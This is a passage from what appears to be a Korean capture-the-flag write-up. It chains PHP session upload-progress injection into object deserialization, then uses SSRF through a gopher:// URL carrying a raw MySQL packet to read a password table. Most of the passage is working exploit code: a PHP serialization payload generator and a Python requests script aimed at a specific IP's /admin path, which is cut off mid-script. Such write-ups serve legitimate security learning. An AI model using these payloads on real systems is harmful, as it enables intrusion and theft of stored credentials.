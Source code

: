 ```php
    }

    public function leave_log() {
        $this->write_line("[".time()."] Unauthorized Access from ".$_SERVER["REMOTE_ADDR"]);
    }

    public function __destruct() {
        if($this->rpt_module == null || !method_exists($this->rpt_module, "send_report"))
            return;

        $log_string = "REPORT_LOG";
        $this->write_line($log_string." - ".$this->rpt_module->send_report());
    }

}

$report_module = new ReportModule('gopher://localhost:3306/_%a7%00%00%01%85%a2%1e%00%00%00%00%40%08%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%69%6e%74%72%61%5f%6d%61%6e%61%67%65%72%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%61%03%5f%6f%73%09%64%65%62%69%61%6e%36%2e%30%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%32%33%34%34%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%08%35%2e%36%2e%36%2d%6d%39%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%03%66%6f%6f%03%62%61%72%35%00%00%00%03%73%65%6c%65%63%74%20%67%72%6f%75%70%5f%63%6f%6e%63%61%74%28%76%61%6c%75%65%29%20%66%72%6f%6d%20%69%6e%74%72%61%5f%64%61%74%61%2e%70%61%73%73%77%6f%72%64%3b%01%00%00%00%01');
$log_module = new LogModule('munsiwoo123');
$log_module->rpt_module = $report_module;

echo serialize($log_module);

```

`gopher://localhost:3306/_`뒤에 붙는 데이터는 MySQL 쿼리를 직접 요청할 수 있는 Raw data다. 위에서는 `select group_concat(value) from intra_data.password;` 를 요청하도록 생성했다.

PHP를 실행해서 나온 직렬화된 데이터를 filename에 담아서 세션 데이터에 포함시켜 세션을 생성한다.

```python
import requests as req
# made by munsiwoo

contents = """------WebKitFormBoundaryUmsB8xWbmldnarAQ
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"

munsiwoo
------WebKitFormBoundaryUmsB8xWbmldnarAQ
Content-Disposition: form-data; name="file"; filename="|O:9:\\"LogModule\\":2:{s:8:\\"filename\\";s:15:\\"log/munsiwoo123\\";s:10:\\"rpt_module\\";O:12:\\"ReportModule\\":1:{s:6:\\"target\\";s:724:\\"gopher://localhost:3306/_%a7%00%00%01%85%a2%1e%00%00%00%00%40%08%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%69%6e%74%72%61%5f%6d%61%6e%61%67%65%72%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%61%03%5f%6f%73%09%64%65%62%69%61%6e%36%2e%30%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%32%33%34%34%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%08%35%2e%36%2e%36%2d%6d%39%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%03%66%6f%6f%03%62%61%72%35%00%00%00%03%73%65%6c%65%63%74%20%67%72%6f%75%70%5f%63%6f%6e%63%61%74%28%76%61%6c%75%65%29%20%66%72%6f%6d%20%69%6e%74%72%61%5f%64%61%74%61%2e%70%61%73%73%77%6f%72%64%3b%01%00%00%00%01\\";}}"
Content-Type: text/plain

------WebKitFormBoundaryUmsB8xWbmldnarAQ--"""

if __name__ == '__main__' :
    url = "http://13.209.230.31/admin"

    headers = {
        "Connection": "keep-alive",
```